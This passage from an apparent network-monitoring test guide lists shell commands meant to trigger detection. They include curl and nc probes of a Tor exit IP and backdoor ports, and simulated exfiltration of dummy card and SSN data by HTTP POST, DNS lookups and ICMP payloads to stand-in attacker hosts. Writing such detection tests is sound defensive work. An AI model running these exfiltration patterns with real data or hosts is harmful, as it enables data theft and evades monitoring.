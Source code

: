 ### 3. Suspicious IP Addresses

#### Known Malicious IPs (for testing)
```bash
# Test connections to suspicious IP ranges
curl -v --connect-timeout 5 http://185.220.101.1  # Tor exit node
curl -v --connect-timeout 5 http://198.51.100.1   # Reserved test IP
curl -v --connect-timeout 5 http://203.0.113.1    # Reserved test IP

# Test non-standard ports
nc -zv 185.220.101.1 8080
nc -zv 185.220.101.1 9050  # Tor SOCKS port
nc -zv 192.0.2.1 31337     # Common backdoor port
```

### 4. Data Exfiltration Simulation
```bash
# HTTP POST data exfiltration
curl -v -X POST -d "credit_card=4111111111111111&ssn=123-45-6789" \
  http://data-stealer.example.com/collect

# DNS exfiltration simulation
for i in {1..5}; do
  nslookup "data-chunk-${i}.exfil.example.com"
done

# ICMP exfiltration simulation
ping -c 1 -p $(echo "secret" | xxd -p) data-exfil.example.com

# Large file download simulation
wget --limit-rate=200k http://large-files.example.com/10GB.zip
```

### 5. Protocol-based Testing

#### HTTPS/TLS Testing
```bash
# Test different TLS versions
curl -v --tls-max 1.0 https://badssl.com/
curl -v --tls-max 1.1 https://badssl.com/
openssl s_client -connect badssl.com:443 -tls1

# Certificate validation bypass attempts
curl -k -v https://self-signed.badssl.com/
curl -k -v https://expired.badssl.com/
```

#### FTP Testing
```bash
# Anonymous FTP access
ftp ftp.malicious-site.example.com
# (try anonymous login)

# SFTP/SCP testing
sftp suspicious-server.example.com
scp testfile.txt user@suspicious-server.example.com:/tmp/
```
